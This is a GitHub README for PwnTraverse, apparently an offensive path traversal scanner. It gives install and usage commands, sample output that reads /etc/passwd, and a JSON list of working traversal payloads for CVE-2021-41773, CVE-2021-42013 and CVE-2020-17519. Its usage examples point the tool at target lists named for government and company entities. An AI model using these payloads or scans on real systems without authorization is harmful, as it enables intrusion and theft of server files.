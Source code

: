 

<p align="center">
  <img src="https://i.postimg.cc/vBCMJb3k/Tosca-Business-Man-Minimalist-Banner-Linked-Id-3.png" alt="PwnTraverse Logo" width="990">
</p>

**PwnTraverse** is an advanced **Path Traversal & Endpoint Vulnerability Scanner** designed for **security researchers, bug bounty hunters, and penetration testers**. This tool automates the discovery of **Path Traversal vulnerabilities** and related CVEs, helping security professionals quickly assess and report security issues.

![CLI](https://img.shields.io/badge/CLI-Tool-green)
![Python](https://img.shields.io/badge/Python-3.6%2B-blue)
![PwnTraverse](https://img.shields.io/badge/PwnTraverse-Vulnerability-Exploitation)


---

##  Key Features

- **Automated Path Traversal Detection**  
  Scans and detects path traversal vulnerabilities using a variety of payloads (`../`, double-encoding, bypass tricks).

- **Deep Directory Enumeration**  
  Performs intelligent directory brute-forcing to uncover hidden files and endpoints.

- **CVE & Endpoint Mapping**  
  Correlates discovered endpoints with known CVEs and potential LFI/RCE attack surfaces.

- **Clean & Actionable Reports**  
  Generates structured vulnerability reports for easy documentation and bug bounty submission.



## Installation

1. **Clone the Repository**
```bash
git clone https://github.com/odaysec/PwnTraverse.git
cd PwnTraverse
````

2. **Install Dependencies**
   Ensure you have Python 3.x installed, then run:

```bash
pip install -r requirements.txt
```

3. **(Optional) Create a Virtual Environment**

```bash
python3 -m venv pwntraverse-venv
source pwntraverse-venv/bin/activate   # Linux / MacOS
.\pwntraverse-venv\Scripts\activate   # Windows
```


## Usage
Run the scanner with:

```bash
python3 exploit.py --url https://target.com --wordlist wordlists/common.txt
```
```bash
python exploit.py --file gov.txt --thread 15
python exploit.py --file tesla.txt --ssl
python exploit.py --range 192.168.15.1,192.168.15.100 --thread 30
python exploit.py --file fbi.txt --thread 15 --timeout 3
python exploit.py --file gov.txt --debug
```

Available options:

* `--url` → Target URL
* `--wordlist` → Custom wordlist for directory enumeration
* `--threads` → Number of threads (default: 10)
* `--output` → Save results to file (JSON/HTML)

[![asciicast](https://asciinema.org/a/742271.svg)](https://asciinema.org/a/742271)

## Output

```bash
[+] Testing target: https://target.com
[+] Found potential path traversal: https://target.com/download?file=../../../../etc/passwd
[+] CVE-2022-12345 matched for endpoint: /download
[+] Report saved to: reports/scan-2025-09-21.html
```

## Roadmap
* [ ] Add more traversal payloads (double URL encoding, UTF-16 bypass)
* [ ] Add Burp Suite plugin integration
* [ ] Generate PDF reports


## Exploit Payloads
> **File:** `assets/exploits.json`

```json
{
    "CVE-2021-41773": "/cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd",
    "CVE-2021-42013-0": "/cgi-bin/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/etc/passwd",
    "CVE-2020-17519-0": "/jobmanager/logs/..%252f..%252f..%252f..%252f..%252f..%252fetc%252fpasswd"
}
```
**References Payloads:** [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings)


#### ⚠️ Disclaimer

```text
This project is for educational and security research purposes only.
Do not use it against systems without prior authorization.

The author(s) are not responsible for any damage caused by misuse of this tool,
including but not limited to data loss, system compromise, or legal consequences.
By using this tool, you agree to take full responsibility for your actions.
````



<p align="center">
  <a href="https://star-history.com/#odaysec/PwnTraverse&Date">
   <picture>
     <source media="(prefers-color-scheme: dark)" srcset="https://api.star-history.com/svg?repos=odaysec/PwnTraverse&type=Date&theme=dark" />
     <source media="(prefers-color-scheme: light)" srcset="https://api.star-history.com/svg?repos=odaysec/PwnTraverse&type=Date" />
     <img alt="Star History Chart" src="https://api.star-history.com/svg?repos=odaysec/confluPwn&type=Date" />
   </picture>
  </a>
